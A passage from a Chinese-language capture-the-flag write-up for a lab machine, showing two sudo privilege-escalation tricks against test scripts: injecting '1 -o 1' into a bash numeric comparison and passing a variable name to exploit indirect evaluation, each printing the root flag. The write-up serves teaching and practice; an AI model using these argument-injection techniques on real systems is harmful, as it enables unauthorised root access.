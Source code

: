 这是一个运气脚本，有 1% 的概率成功，但失败会删除 flag 文件，风险较高。

# 五、权限提升利用

## 方法一：命令注入绕过

利用 `test.sh` 中的数值比较漏洞：

```bash
del@Delete:/opt$ sudo /opt/test.sh '1 -o 1'
 __  __                    ____          
|  \/  | __ _ _______     / ___|  ___  ___ 
| |\/| |/ _` |_  / _ \____\___ \ / _ \/ __|
| |  | | (_| |/ /  __/_____|__) |  __/ (__ 
|_|  |_|\__,_/___\___|    |____/ \___|\___|
                                         
flag{root-07a5b83a20f5d4002fff208e8180eba1}
Maze-Sec
```

**原理说明**: `[ 1 -o 1 ]` 是一个逻辑或运算，结果为真，从而绕过了随机数检查。

## 方法二：变量名绕过

利用 `test2.sh` 中的变量引用问题：

```bash
del@Delete:/opt$ sudo /opt/test2.sh CHALLENGE
 __  __                    ____          
|  \/  | __ _ _______     / ___|  ___  ___ 
| |\/| |/ _` |_  / _ \____\___ \ / _ \/ __|
| |  | | (_| |/ /  __/_____|__) |  __/ (__ 
|_|  |_|\__,_/___\___|    |____/ \___|\___|
                                         
flag{root-07a5b83a20f5d4002fff208e8180eba1}
Maze-Sec
```

**原理说明**: 传入字符串 `CHALLENGE`，在比较时会被当作变量名而不是值进行比较。

# 六、获取用户 flag

```bash
del@Delete:/opt$ cat /home/del/user.txt 
flag{user-12e7bce94552f7a4288921f908df9b8c}
```